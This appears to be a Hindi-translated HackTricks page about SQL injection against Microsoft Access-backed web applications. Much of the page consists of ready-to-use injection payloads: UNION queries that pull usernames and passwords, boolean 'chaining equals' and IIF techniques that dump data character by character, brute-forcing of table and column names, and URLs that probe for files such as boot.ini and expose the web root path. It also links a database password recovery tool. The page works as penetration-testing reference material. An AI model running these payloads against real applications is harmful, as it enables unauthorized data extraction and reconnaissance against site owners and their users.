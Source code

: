 # MS Access SQL Injection

{{#include ../../banners/hacktricks-training.md}}

## Online Playground

- [https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1)

## DB Limitations

### String Concatenation

स्ट्रिंग संयोजन `& (%26)` और `+ (%2b)` अक्षरों के साथ संभव है।
```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```
### टिप्पणियाँ

MS Access में कोई टिप्पणियाँ नहीं हैं, लेकिन स्पष्ट रूप से एक NULL चर के साथ एक क्वेरी के अंतिम को हटाना संभव है:
```sql
1' union select 1,2 from table%00
```
यदि यह काम नहीं कर रहा है, तो आप हमेशा क्वेरी की सिंटैक्स को ठीक कर सकते हैं:
```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```
### Stacked Queries

वे समर्थित नहीं हैं।

### LIMIT

**`LIMIT`** ऑपरेटर **कार्यान्वित नहीं किया गया है**। हालाँकि, SELECT क्वेरी परिणामों को **पहले N तालिका पंक्तियों तक सीमित करना संभव है `TOP` ऑपरेटर का उपयोग करके**। `TOP` एक पूर्णांक को तर्क के रूप में स्वीकार करता है, जो लौटाई जाने वाली पंक्तियों की संख्या का प्रतिनिधित्व करता है।
```sql
1' UNION SELECT TOP 3 attr FROM table%00
```
जैसे TOP, आप **`LAST`** का उपयोग कर सकते हैं जो **अंत से पंक्तियाँ प्राप्त करेगा**।

## UNION Queries/Sub queries

SQLi में, आप आमतौर पर किसी न किसी तरह से एक नई क्वेरी निष्पादित करना चाहेंगे ताकि अन्य तालिकाओं से जानकारी निकाली जा सके। MS Access हमेशा आवश्यक है कि **उपक्वेरियों या अतिरिक्त क्वेरियों में `FROM` को इंगित किया जाए**।\
तो, यदि आप `UNION SELECT` या `UNION ALL SELECT` या एक शर्त में कोष्ठक के बीच `SELECT` निष्पादित करना चाहते हैं, तो आपको हमेशा **एक मान्य तालिका नाम के साथ `FROM` को इंगित करने की आवश्यकता है**।\
इसलिए, आपको एक **मान्य तालिका नाम** जानने की आवश्यकता है।
```sql
-1' UNION SELECT username,password from users%00
```
### Chaining equals + Substring

> [!WARNING]
> यह आपको वर्तमान तालिका के मानों को निकालने की अनुमति देगा बिना तालिका के नाम को जाने।

**MS Access** अजीब **सिंटैक्स** की अनुमति देता है जैसे **`'1'=2='3'='asd'=false`**। जैसा कि आमतौर पर SQL injection एक **`WHERE`** क्लॉज के अंदर होगा, हम इसका दुरुपयोग कर सकते हैं।

कल्पना करें कि आपके पास एक MS Access डेटाबेस में SQLi है और आप जानते हैं (या अनुमान लगाते हैं) कि एक **कॉलम का नाम username** है, और यही वह फ़ील्ड है जिसे आप **exfiltrate** करना चाहते हैं। आप वेब ऐप के विभिन्न प्रतिक्रियाओं की जांच कर सकते हैं जब चेनिंग इक्वल्स तकनीक का उपयोग किया जाता है और संभावित रूप से **`Mid`** फ़ंक्शन का उपयोग करके सबस्ट्रिंग प्राप्त करने के लिए **boolean injection** के साथ सामग्री निकाल सकते हैं।
```sql
'=(Mid(username,1,3)='adm')='
```
यदि आप **टेबल का नाम** और **कॉलम** जानते हैं जिसे डंप करना है, तो आप `Mid`, `LAST` और `TOP` के बीच एक संयोजन का उपयोग कर सकते हैं ताकि **सभी जानकारी लीक** की जा सके बूलियन SQLi के माध्यम से:
```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```
_इसका ऑनलाइन प्लेग्राउंड में जांचने के लिए स्वतंत्र महसूस करें।_

### टेबल नामों का ब्रूट-फोर्सिंग

चेनिंग इक्वल्स तकनीक का उपयोग करके आप कुछ इस तरह से **टेबल नामों का ब्रूट-फोर्स** भी कर सकते हैं:
```sql
'=(select+top+1+'lala'+from+<table_name>)='
```
आप एक अधिक पारंपरिक तरीके का भी उपयोग कर सकते हैं:
```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
_इसे ऑनलाइन प्लेग्राउंड में चेक करने के लिए स्वतंत्र महसूस करें।_

- Sqlmap सामान्य तालिका नाम: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
- [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html) में एक और सूची है

### ब्रूट-फोर्सिंग कॉलम नाम

आप **चेनिंग इक्वल्स ट्रिक** के साथ वर्तमान कॉलम नामों को **ब्रूट-फोर्स** कर सकते हैं:
```sql
'=column_name='
```
या **group by** के साथ:
```sql
-1' GROUP BY column_name%00
```
या आप **अलग तालिका** के कॉलम नामों को ब्रूट-फोर्स कर सकते हैं:
```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
### डेटा डंप करना

हमने पहले ही [**चेनिंग इक्वल्स तकनीक**](ms-access-sql-injection.md#chaining-equals-+-substring) **से वर्तमान और अन्य तालिकाओं से डेटा डंप करने** पर चर्चा की है। लेकिन अन्य तरीके भी हैं:
```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
संक्षेप में, क्वेरी एक "if-then" कथन का उपयोग करती है ताकि सफलता की स्थिति में "200 OK" या अन्यथा "500 Internal Error" को ट्रिगर किया जा सके। TOP 10 ऑपरेटर का लाभ उठाते हुए, पहले दस परिणामों का चयन करना संभव है। LAST का बाद में उपयोग केवल 10वें ट्यूपल पर विचार करने की अनुमति देता है। ऐसे मान पर, MID ऑपरेटर का उपयोग करके, एक सरल वर्ण तुलना करना संभव है। MID और TOP के इंडेक्स को सही ढंग से बदलकर, हम सभी पंक्तियों के "username" फ़ील्ड की सामग्री को डंप कर सकते हैं।

### Time Based

Check [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](<https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN>)

### Other Interesting functions

- `Mid('admin',1,1)` स्थिति 1 से लंबाई 1 का उपस्ट्रिंग प्राप्त करें (प्रारंभिक स्थिति 1 है)
- `LEN('1234')` स्ट्रिंग की लंबाई प्राप्त करें
- `ASC('A')` वर्ण का ASCII मान प्राप्त करें
- `CHR(65)` ASCII मान से स्ट्रिंग प्राप्त करें
- `IIF(1=1,'a','b')` यदि तब
- `COUNT(*)` आइटम की संख्या गिनें

## Enumerating tables

From [**here**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) you can see a query to get tables names:
```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
हालांकि, ध्यान दें कि SQL इनजेक्शन पाना बहुत सामान्य है जहाँ आपके पास **`MSysObjects`** तालिका को पढ़ने का एक्सेस नहीं है।

## फ़ाइल सिस्टम एक्सेस

### वेब रूट डायरेक्टरी का पूर्ण पथ

**वेब रूट का पूर्ण पथ जानने से आगे के हमलों में मदद मिल सकती है**। यदि एप्लिकेशन की त्रुटियाँ पूरी तरह से छिपी नहीं हैं, तो एक गैर-मौजूद डेटाबेस से डेटा चुनने की कोशिश करते समय डायरेक्टरी पथ का पता लगाया जा सकता है।

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access एक **त्रुटि संदेश के साथ प्रतिक्रिया करता है जिसमें वेब डायरेक्टरी का पूर्ण पथ होता है**।

### फ़ाइल एन्यूमरेशन

निम्नलिखित हमलावर वेक्टर का उपयोग **दूरस्थ फ़ाइल सिस्टम पर एक फ़ाइल के अस्तित्व का अनुमान लगाने के लिए किया जा सकता है**। यदि निर्दिष्ट फ़ाइल मौजूद है, तो MS Access एक त्रुटि संदेश उत्पन्न करता है जो सूचित करता है कि डेटाबेस प्रारूप अमान्य है:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

फ़ाइलों को एन्यूमरेट करने का एक और तरीका **एक डेटाबेस.तालिका आइटम को निर्दिष्ट करना** है। **यदि** निर्दिष्ट **फ़ाइल मौजूद है**, तो MS Access एक **डेटाबेस प्रारूप त्रुटि संदेश** प्रदर्शित करता है।

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb फ़ाइल नाम अनुमान लगाना

**डेटाबेस फ़ाइल नाम (.mdb)** को निम्नलिखित क्वेरी के साथ अनुमान लगाया जा सकता है:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

जहाँ **name\[i] एक .mdb फ़ाइल नाम** है और **realTable डेटाबेस के भीतर एक मौजूदा तालिका है**। हालांकि MS Access हमेशा एक त्रुटि संदेश उत्पन्न करेगा, लेकिन अमान्य फ़ाइल नाम और मान्य .mdb फ़ाइल नाम के बीच अंतर करना संभव है।

### .mdb पासवर्ड क्रैकर

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) एक मुफ्त उपयोगिता है जिसका उपयोग Microsoft Access 95/97/2000/XP या Jet Database Engine 3.0/4.0 के मुख्य डेटाबेस पासवर्ड को पुनर्प्राप्त करने के लिए किया जा सकता है।

## संदर्भ

- [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

{{#include ../../banners/hacktricks-training.md}}
